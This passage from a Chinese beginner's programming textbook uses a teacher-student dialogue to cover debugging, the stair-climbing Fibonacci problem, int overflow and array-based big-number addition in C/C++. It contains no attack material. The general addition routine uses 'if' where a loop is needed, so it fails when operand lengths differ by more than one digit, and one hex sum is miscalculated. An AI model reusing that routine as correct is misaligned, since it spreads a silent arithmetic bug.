

图 1.19

小菜们说道：“果然和打印方法看到的值一样啊！”

老师说道：“呵呵，无论是直接执行还是单步调试，程序运行的机制是完全一样的。所以，有了调试，我们就可以自如地控制程序，如同控制了整个世界一般。”

小菜们口水都流出来了：“控制整个世界啊！！”

“是的，”老师说道，“我们按 F10 继续单步运行，当执行了打开文件那句代码后，fp 的值变为了 0x00423af0，watch 窗口中的值自动地变化，如图 1.20。”



图 1.20

“哦，真的很方便！”

老师说道：“嗯，大家初步地感受到了调试的过程后，我们看看更复杂的跟踪。除了最基本的单步执行和 watch 变量外，还有跟入、设置断点等技巧，我们用一个稍微复杂的例子来进一步讲解吧。”

### 1.6.2 上梯子——调试

“我们解决一个有意思的问题：上梯子的问题。”

“题目是这样的，有人从山底爬到山顶，共有 11 个梯子；他每次可以上一格，也可以上两格，问他共有多少种登上山顶的方法呢。”

“唔……”小菜们愣住了，“这可怎么计算啊？一点思路都没有……”

“在计算机科学中，解决问题的思路称为算法，”老师说道，“有很多计算机大师，没有写过程序，但凭借他们对算法的研究，就为计算机科学的发展作出了重大的贡献。”

“哦！”小菜们点点头。

“编程其实就是用选择的编程语言和数据结构来实现算法！”老师进一步解释道，“所以掌握编程语言是部分基本功，而关键还是在构造算法上！比如，语音识别、图像识别等，都是算法的发展，才推动了应用的发展；网络编程也是一样，具体的编码实现，还是相对较简单的问题。”

“我们还是来看看解决这道题的思路，也就是算法吧。”老师说道，“我们解决问题的一个基本方法是从简单到复杂，从特殊到一般，发现规律后，再推广到所有情况。所以我们先手工推算一下登最初几梯的方法数。”

“第 0 梯，也就是登山者最初所在的那梯，方法数只能为 1。因为登山者一来就在那儿了，没有其他的办法可以到达第 0 梯。”

“第 1 梯，也比较简单，只能从第 0 梯通过登 1 格上来，所以方法数为 1。”

“第 2 梯，登山者可以在第 0 梯登 2 格，或连续登两个 1 格来到达第 2 梯。所以方法数为 2。”

“第 3 梯，就要麻烦点了。他可以通过在第 1 梯登 2 格，或在第 2 梯登 1 格来到达第 3 梯；而刚才我们已经算出，到达第 2 梯本来就有 2 种方法数，所以到第 3 梯的方法数就应该为 1 + 2 = 3。”

“所以，一般来说，到达第 n 梯的方法数，是到达第 n－1 梯方法数 + 到达第 n－2 梯方法数之和；而第 0 梯方法数为 1，第 1 梯方法数也为 1，这样就可以推出任何梯的方法数了。”

“我们有了思路和算法，就可以编程写出计算程序，程序如下：”

```cpp
#include <stdio.h>
int main()
{
    int i;
    int value[12];      // 11梯
    value[0] = 1;       // 第0梯方法数为1
    value[1] = 1;       // 第1梯方法数为1
    for(i = 2; i <= 11; i++)
    {
        value[i] = value[i - 1] + value[i - 2];
        // 第n梯 = 第n-1梯 + 第n-2梯
    }
    // 打印第11梯的方法数
    printf("%d", value[11]);
    return 0;
}
```

“我们运行，得到结果如图 1.21，大家可以看到结果为 144。”



“哦，有了算法，编程实现真的很方便。”小菜高兴地说道。

老师接着问道：“这是 11 梯的情况，如果山更高点，比如梯子有 100 梯，我们如何计算呢？”

“这个简单嘛，把数组改成 100 就行了！”

“呵呵，大家试试看。”老师说道。

# 黑客编程入门

“好，改成100个数组，编译执行，结果如图1.22。”



图1.22

“哎哟，怎么为负数呢？奇怪了！”小菜们嚷起来。

“我们来调试一下，争取发现问题。”老师说道，“一次次的单步执行速度太慢，我们通过设断点来加快调试的速度。把光标放到要设断点的那行，再按F9，就会出现一个红色的圆，表明设置断点成功，如图1.23。”



图1.23

“在有了断点后，按F5运行，程序就会一直往下执行，直到遇到断点才停止，如图1.24。”



图1.24

“一直都还正常，我们反复按F5继续运行，注意观察在 Auto Watch 中的值。当 i＝47 的时候，出现问题了，如图1.25。”



图1.25

“是啊，value[45]＝1836311903，value[44]＝1134903170，那应该 value[46]＝value[45] + value[44]＝1836311903 + 1134903170 ＝ 2971215073 啊！”大家奇怪地说。

“我们用16进制表示，可以看得清楚点，value[45] + value[44] ＝ 0x6d73c55f + 0x43a53f82 ＝ 0xb11924e1，而结果的第一位十六进制是 b，所以结果的首位为1；在计算机系统中，对于有符号数来说，第一位是符号位，为1的时候就表示是负数了。”

“所以，我们的值超过了计算机的整数可容纳的范围啦！”老师最后说道，“就是越界了！”

“哦！果然通过调试找到了问题原因了！”小菜们想了想，又满怀兴趣地问道，“那怎么解决这个问题呢？”

“呵呵，大家有了兴趣就很好。如果编程语言直接提供的类型容纳不下，我们就要自己实现一种类型来表示了。这里，我们用数组的方式来表示大数！”

### 1.6.3 大数上梯子

“用数组来表示大数的思路是，用一个 int 型数组来存那个数。用数组的最低位 [0] 保存数的位数，然后 [1]、[2]……位依次表示大数的个位、十位……这样数组有多长，大数就可以有多少位，就可以轻松表示几百位上千位的大数了。”

“举个例子，我们用这种方法表示1234567，那么数组的 a[0] 应该为7，表示这个数为7位，然后 a[1] 存个位7，a[2] 存十位6，a[3] 存百位5，同理 a[4]＝4，a[5]＝3，a[6]＝2，a[7]＝1，如图1.26。”

“就是数组的一个元素表示大数中一位。我们要表示几百位的数，就只需定义几百位的数组，比如 a[500] 就好了。”老师继续说道，“用这种方法表示大数后，就需要有一种方法来作相加的运算。小学时，我们笔算两个数相加的时候，是怎么计算的呢？”

小菜们回答道：“这个简单。我们用的是竖加式。把两个数个位对齐，每位相加，再加上低位的进位值，个位就是本位的值，而十位就是这一位的进位，进到高位去计算。比如1234567＋1234567就是这样计算的，如图1.27。”




“比如两个大数 a[] 和 b[] 相加，结果存在 r[] 中。就首先计算 a[1]+b[1]，其和的个位就是 r[1]，而和的十位值 c 为进位，放在 a[2]+b[2] 时再计算；同样，a[2]+b[2]+c 的个位为 r[2]，a[2]+b[2]+c 的十位为本位的进位，放在 a[3]+b[3] 时计算。以此类推，如图1.28。”



图1.28

“有了这个思路，我们写一个两数相加的测试代码如下：”

```c
#include<stdio.h>
int main()
{
    // a[0] b[0]
    int a[501], b[501];
    // 赋初值，a和b都是100位的8
    for(int k=1; k<=100; k++)
    {
        a[k] = b[k] = 8;
    }
    // a[0] b[0]为100，表示a，b为100位
    a[0] = b[0] = 100;
    int r[501];
    int c = 0; // 进位值
    int i = 1;
    // 每一位对齐和进位相加，个位为本位的值，十位为进位值
    while(i<=a[0] && i<=b[0])
    {
        r[i] = (a[i]+b[i]+c) % 10;
        c = (a[i]+b[i]+c) / 10;
        i++;
    }
    // 如果a比b的位数更多，a数继续和进位作相加计算
    if(i<=a[0])
    {
        r[i] = (a[i]+c) % 10;
        c = (a[i]+c) / 10;
        i++;
    }
    // 如果b比a的位数更多，b继续和进位作相加计算
    if(i<=b[0])
    {
        r[i] = (b[i]+c) % 10;
        c = (b[i] + c) / 10;
        i++;
    }
    // 如果最后一位没有进位，则位数为 i - 1
    if(c == 0)
        r[0] = i - 1;
    // 最后一位有进位，则位数为 i，最高位为进位 c
    else
    {
        r[i] = c;
        r[0] = i;
    }
    // 打印结果
    for(i = r[0]; i >= 1; i--)
        printf("%d", r[i]);
    return 0;
}
```

“可以看到打出了正确的结果，100 位的 a = 88888……8888 和 100 位的 b = 88888……8888 相加，结果为 17777777……76，虽然位数有 100 位，但还是正确的值，如图1.29。”



图1.29

“有了这种方法后，我们改写原来的那个程序，思路不变，也把普通数的相加改成大数相加。得到程序如下：”

```c
#include<stdio.h>
int main()
{
    int a[101][501];
    a[0][0] = 1;
    a[0][1] = 1;    // 1、2都等于1；
    a[1][0] = 1;
    a[1][1] = 1;    // 1、2都等于1；
    // 计算 a[t] = a[t-1] + a[t-2]
    for(int t = 2; t <= 100; t++)
    {
        int c=0;  // 进位初始值为0
        int i=1;
        while(i<=a[t-1][0] && i<=a[t-2][0])
        {
            // 每一位对齐和进位相加，个位为本位的值，十位为进位值
            a[t][i] = (a[t-1][i] + a[t-2][i] + c) % 10;
            c = (a[t-1][i] + a[t-2][i] + c) / 10;
            i++;
        }
        if(i<=a[t-1][0])
        {
            // 如果一个数比另一个数的位数更多，位数多的数继续和进位相加计算
            a[t][i] = (a[t-1][i] + c) % 10;
            c = (a[t-1][i] + c) / 10;
            i++;
        }
        if(i<=a[t-2][0])
        {
            // 如果一个数比另一个数的位数更多，位数多的数继续和进位相加计算
            a[t][i] = (a[t-2][i] + c) % 10;
            c = (a[t-2][i] + c) / 10;
            i++;
        }
        // 最后一位没有进位
        if(c==0)
            a[t][0] = i-1;
        // 最后一位有进位
        else
        {
            a[t][i] = c;
            a[t][0] = i;
        }
    }
    // 打印结果
    for(int i=a[100][0]; i>=1; i--)
        printf("%d", a[100][i]);
    return 0;
}
```

“OK了，我们编译，运行，结果如图1.30。”



图1.30

“答案揭晓了！上100梯的结果是573147844013817084101！”

“哇！这么大的数都成功了啊！”台下一阵欢呼。

## 小结

老师笑笑，待大家平静后说道：“如果我们加入 C++ 的面向对象思想，还可以写一个大数类，功能和上面一样。当我们计算大数时，只需要定义两个大数类的对象，然后直接相加就好了。”

“哦？听起来很有意思啊！”

“嗯，方法是用类的成员数组表示大数值，然后重载 + 和 = 运算符，这样就可以像普通的数据类型那样，直接用 + 和 = 来完成大数的计算功能。”

“这么神奇啊？”

“是啊，面向对象的思想就是把实现封装在类的内部，这样外部使用起来就很简单。既然大家觉得神奇，就作为作业留给大家实现它吧！”

“这里还可以改进的地方是，用一个数组元素表示一位，但其实可以优化，我们可以用一个数组元素表示几位数，这样就可以节省使用的数组空间！优化也留给大家去实现吧。”

“好了，有了对数据类型的基本认识和调试程序的技巧，我们就可以用程序写出高质量的网络工具代码，而且包括后门工具、探测工具等等……这里是起个头，在后面的课程中，我们逐渐深入吧！今天课就到这里，大家慢慢消化吧，下课！”

### 1.6.4 “喜欢它，就实现它”——大数类上梯子

我是小菜 A，吃完晚饭后网断了，学校的网络就是差。窗外传来“喜欢她，就发短信留下她”的呐喊。唉，呆着也无聊，实现实现这周网络课布置的作业吧。

作业是构造一个大数类，完成大数相加的功能。

首先是要定义类的名称，就叫 CBigNumber 吧，虽然有点土，倒还能说明问题。这个类需要存大数的值，所以要定义一个私有数组成员——a[501]。

```cpp
class CBigNumber
{
private:
    int a[501];
};
```

接下来需要有构造函数。如果没有参数，值默认应该为 0，就把 a[501] 全赋为 0；如果带参数，就把值赋给数组 a。表示方法和课堂上是一样的，a[0] 存位数，a[1] 存个位，a[2] 存十位……代码如下：

```cpp
class CBigNumber
{
private:
    int a[501];
public:
    // 如果构造函数没有参数，把 a 赋为 0
    CBigNumber()
    {
        for(int i=0; i<501; i++)
        {
            a[i] = 0;
        }
    }

    // 如果构造函数有参数，把参数赋到数组 a 中
    CBigNumber(int origin)
    {
        int i=1;
        int temp = origin;
        for(; temp != 0; i++)
        {
            // 个位、十位，一位位地表示
            a[i] = temp % 10;
            temp /= 10;
        }
        // a[0] 存大数的位数
        a[0] = i-1;
    }
};
```

然后再写一个测试构造函数的代码，在 main 函数中，构造两个 CBigNumber 对象，一个带参数，一个不带参数，看是否正确。

```cpp
